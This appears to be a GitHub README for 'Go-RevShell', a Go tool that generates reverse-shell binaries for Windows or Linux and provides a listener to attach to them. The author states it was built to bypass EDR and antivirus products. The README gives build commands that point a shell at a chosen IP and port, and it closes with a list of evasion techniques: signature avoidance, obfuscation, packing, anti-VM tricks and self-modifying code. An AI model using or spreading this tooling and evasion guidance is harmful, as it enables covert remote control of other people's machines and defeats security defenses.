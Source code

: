 ![Go-RevShell-Banner](img/Go-RevShell-Banner.jpeg)

Go-RevShell
=======

Pure standard Golang implementation of a reverse-shell generator and a netcat like tcp listener to attach the shell without any other piece of code. Made by a student for educational purposes only.

## Why
As an infosec student, I had to bypass some EDR and antivirus solutions (see the "Go further" section). So I needed this kind of software which I could not find easily on the web, so I built this.

## Usage
```text
  -i string
        IP of the host which the reverse shell will connect to. (default "localhost")
  -l string
        Port to listen (you can use this argument to bind to your reverse shell). (default "0")
  -p string
        Port of the host which the reverse shell will connect to. (default "1111")
  -s string
        OS of the server which will start the reverse shell (used to build the right binary) available : "windows", "linux". (default "linux")
```

### Build a reverse shell

* Build a shell for linux server : ```go run main.go -s linux```
* Build a shell for windows server : ```go run main.go -s windows```
* Build a shell for windows server to be attached on 192.1.1.10:4444 :

  ```go run main.go -i 192.168.1.10 -p 4444 -s windows```

### Attach to reverse shell

* Listen on port 1111 ```go run main.go -l 1111```

## Screenshots

![Go-RevShell-Generate](img/Go-RevShell-Generate.png)
![Go-RevShell-Attach](img/Go-RevShell-Attach.png)

## Go further
Some ideas to go further using this tool :
- Avoid signatures (build your own unique reverse-shell code)
- Obfuscate your reverse-shell code
- Pack your reverse-shell executable (ie. https://github.com/EgeBalci/amber)
- Add anti-vm tricks to your reverse-shell code
- Self-modifying reverse-shell code
- ...

## Todo List

* Publish package

**[`^        back to top        ^`](#)**
